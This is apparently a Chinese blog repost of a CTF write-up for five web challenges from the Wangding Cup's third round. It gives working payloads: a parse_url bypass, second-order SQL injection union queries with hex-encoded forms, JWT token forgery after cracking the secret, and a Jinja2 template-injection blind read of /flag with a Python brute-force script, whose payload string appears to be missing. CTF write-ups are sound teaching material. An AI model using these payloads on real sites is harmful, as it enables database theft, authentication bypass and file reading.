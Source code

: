 ```yaml
---
layout:     post
title:      深入了解Json Web Token
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-714676.jpg
catalog: true
tags:
    - JWT
---
```




通过赛题深入了解JWT

比赛环境没关，可以找其他人借账号复现本次比赛题目，以下是网鼎杯第三场Web题解。

## Web

### comein

题目：由于运维人员失误，内网认证页面部署至了外网，不过还好，开发加了域名验证。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)

查看源码，发现如下代码：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)

很明显又是考察 **parse_url** 函数绕过，只不过开头多了对点号的匹配，绕过即可。使用 **payload**：**.@c7f.zhuque.com/..//**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)

可以自己本地调试一下。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)

### gold

题目：还在上小学的小明同学开发了一款游戏，你能通关吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)

**Burpsuite** 抓包会发现浏览器一直发送POST数据，应该是通过Ajax来发起请求的：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)

根据题目提示： **收集1000金币即可过关** 。尝试直接将参数 **getGod** 的值修改为1000，发现会触发检测机制。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)

于是使用 **Burpsuite** 抓包，用 **Intruder** 模块从0跑到1001，在 **getGod=1001** 的数据包中获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)

PS：用多线程跑会触发游戏的反作弊机制，用单线程按顺序跑就能出flag。

### phone

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)

看到这道题目，马上就想到 [2017广东省强网杯(第三题)](https://mochazz.github.io/2017/09/11/QWBCTF/) 。测试了一下，果然在用户注册处的电话处存在二次注入，测试结果如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)

可以发现这里查询结果为： **有1人和你电话相似哦~** ，而实际上这是我注册的第一个用户，数据库中不可能有用户的电话和我一样，所以应该是执行了我们刚刚构造的 **SQL语句** ，因为后面的布尔逻辑值为真。所以我们分别构造获取表名、列名、字段的 **payload** 如下：

获取表名：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database() order by 1 desc#
username=test4&password=test4&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)

获取列名：

```
aaa' union select group_concat(column_name) from information_schema.columns where table_name="flag" order by 1 desc#
username=test6&password=test6&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d22666c616722206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)

获取字段：

```
aaa' union select f14g from flag order by 1 desc#
username=test7&password=test7&phone=0x6161612720756e696f6e2073656c65637420663134672066726f6d20666c6167206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)

这里可能有人会不明白为什么要加上 **order by 1 desc** ，大家可以试试下面这个 **payload** ：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
username=test8&password=test8&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d6461746162617365282923&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)

实际上后台的 **SQL语句** 类似下图 **第一个SQL语句** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)

### i_am_admin

题目：你能登录进去吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)

抓取登录数据包，发现 **JWT** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)

登录进去可以发现用于加密的 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)

使用这个 **secret key** 到 <https://jwt.io/> 生成 **admin** 对应的 **token** 值：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)

使用该 **token** 值访问网站即可获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)

### mmmmy

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)

抓包发现又是python的web程序，使用了JWT：(随手用test/test登录即可看到)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)

使用 [**c-jwt-cracker**](https://github.com/brendan-rius/c-jwt-cracker) 爆破 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)

发现只有 **admin** 才能用留言板功能，所以 **伪造admin的token** 登录：

![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-816bdcfe-aac0-1.png)

**virink** 师傅提醒说留言板处存在 **SSTI** ，于是测试了下，果然存在，只不过过滤了 **{{}}** 的写法，那我们可以换成流程控制结构的写法 **{%if 表达式%}内容1{%else%}内容2{%endif%}** ，测试如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)

那么后面的数据就要盲注出来了，使用的 **payload** 类似如下:

```
text={%  if open('/flag','r').read()[0]=='f' %}1{%  else  %}0{%  endif  %}
```

这里实际上过滤了单、双引号，我们可以使用以下payload进行绕过：

```
text={% if request.values.e[18] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[0]%}good{%endif%}&a=__class__&b=__base__&c=__subclasses__&d=/flag&e=}-{0123456789abcdefghijklmnopqrstuvwxyz
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)

getflag程序如下：

```python
import requests,sys
url = "http://4532bc69bc734acd8416204f0aa04f446e9d38024c5644e8.game.ichunqiu.com/bbs"
cookie = {
    "token" : "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.IXEkNe82X4vypUsNeRFbhbXU4KE4winxIhrPiWpOP30"
}
chars = "}-{0123456789abcdefghijklmnopqrstuvwxyz"
flag = ''
for i in range(0,50):
    for j in range(0,len(chars)):
        data = {
            "text" : "" % (j,i),
            "a" : "__class__",
            "b" : "__base__",
            "c" : "__subclasses__",
            "d" : "/flag",
            "e" : chars
        }
        r = requests.post(url=url,data=data,cookies=cookie)
        if 'getflag' in r.text:
            flag += chars[j]
            sys.stdout.write("[+] "+ flag + '\r')
            sys.stdout.flush()
            if chars[j] == '}':
                print(flag)
                exit()
            else:
                break
print(len(r.text))
```



[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)



转载自先知：https://xz.aliyun.com/t/2648

[深入了解Json Web Token之概念篇](https://www.freebuf.com/articles/web/180874.html)

[深入了解Json Web Token之实战篇](https://www.freebuf.com/articles/web/181261.html)

https://jwt.io/